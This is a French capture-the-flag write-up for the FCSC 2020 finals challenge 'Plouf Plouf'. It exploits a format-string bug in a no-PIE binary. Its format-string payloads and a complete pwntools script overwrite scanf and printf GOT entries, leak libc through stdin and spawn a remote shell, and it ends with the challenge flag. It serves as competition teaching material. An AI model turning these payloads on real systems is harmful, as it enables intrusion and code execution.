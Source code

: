 ```yaml
---
title: "Plouf Plouf"
subtitle: "Challenge de Pwn de la finale du FCSC 2020"
published: true
author: "Bdenneu"
ctf: "FCSC_FINALE"
annee: "2020"
---
```


# L'énoncé

Le jeu du caillou, vous connaissez ?

Service : nc ploufplouf.fcsc 4000

SHA256(plouf) = a3f5f3dafdeb9e6e9d8aad2319d69ac62d379d229c64c70a0e46ff6ce9470aa6.

SHA256(libc-2.28.so) = 106dd808259c84d6a271a5c894c73e8486c46b70f35291b025397a04087b893b.

[plouf](/writeup-scripts/2019-2020/FCSC_FINALE/plouf)

[libc-2.28.so](/writeup-scripts/2019-2020/FCSC_FINALE/libc-2.28.so)

# Trouvons la faille!

Le programme de base demande un nom, et demande de deviner des nombres avant de se terminer.

![](/assets/images/FCSCFINALE2020/Plouf/1.png)

Pas de buffer overflows ici, mais seulement UNE format string au moment de l'affichage du nom.

![](/assets/images/FCSCFINALE2020/Plouf/2.png)

Pas de protection pie, donc les adresses des relocs (adresses où sont les fonctions sont stockées) sont fixes.On va donc réecrire l'adresse de scanf dans la mémoire pour mettre main à la place, pour pouvoir faire autant de format string que l'on veut.

![](/assets/images/FCSCFINALE2020/Plouf/3.png)

Le buffer est à la position 4. Le début de l'adresse sera bien 0x0804 grace à no-pie, donc on va utiliser hn.

![](/assets/images/FCSCFINALE2020/Plouf/4.png)

On veut écrire 0x9212 = 37394 à l'adresse 0x0804c03c. On ajoute du padding avec des A pour que l'addresse soit au bon endroit.

```
%.37394%11$hnAA\x3c\xc0\x04\x08
```

À partir de là, on a droit de manière illimité aux format strings.

![](/assets/images/FCSCFINALE2020/Plouf/5.png)

On va leak la libc maintenant.

Les premiers éléments de la stack affiché sont le nombre de caractères lus (on reconnait le 0x80) par fgets puis l'adresse de stdin.

![](/assets/images/FCSCFINALE2020/Plouf/6.png)

![](/assets/images/FCSCFINALE2020/Plouf/7.png)

On récupérer l'adresse de stdin dans la libc et l'adresse de system:

![](/assets/images/FCSCFINALE2020/Plouf/8.png)

stdin: 0x001da5c0

system: 0x0003e9e0

Enfin, on réecrit l'adresse de system à l'adresse de reloc.printf.

```python
from pwn import *
import re
import binascii

r = remote("ploufplouf.fcsc", 4000)
r.recv()

#Ecrire main à la place de scanf
first = 0x9212
payload = b'%.'+b"%d"%(first)+b'x%11$hn'+b'AA'
payload += p32(0x0804c03c)
r.sendline(payload)
data = r.recvuntil('Quel est ton nom ?\n>>>')

#Leak l'adresse de stdin
r.sendline(b'%2$p')
data = r.recvuntil('>>>')
leaked_stdin = re.findall(b'Bonjour 0x(.*?)\n', data)[0]
leaked_stdin = int(leaked_stdin,16)

reloc_printf = 0x0804c00c
libc_system = 0x0003e9e0
libc_stdin = 0x001da5c0
libc_start = leaked_stdin - libc_stdin
wanted = libc_start+libc_system

#Replacer printf par system
first = (wanted & 0xffff) -2
second = (wanted >> 16) - first -2
payload = b"AA" #padding pour les blocs
payload += b"%."+b"%d"%(first) +b"x%15$hn"
payload += b"%."+b"%d"%(second)+b"x%16$hn"
payload += b"A"*(4-len(payload)%4)*(len(payload) % 4 != 0) #pour aligner les addresses
payload += p32(reloc_printf)
payload += p32(reloc_printf+2)

r.sendline(payload)
r.recvuntil('nom ?')
r.sendline('sh')
r.recvuntil('nom ?')
print("Enjoy your shell!")
r.interactive()
```

On obtient alors un shell sur la machine!

![](/assets/images/FCSCFINALE2020/Plouf/9.png)

# Flag

FCSC{1f0ab477d3ec9b50c0e1259d8e18f10d47c9c046041ef5fe344c30e0da8dca6c}


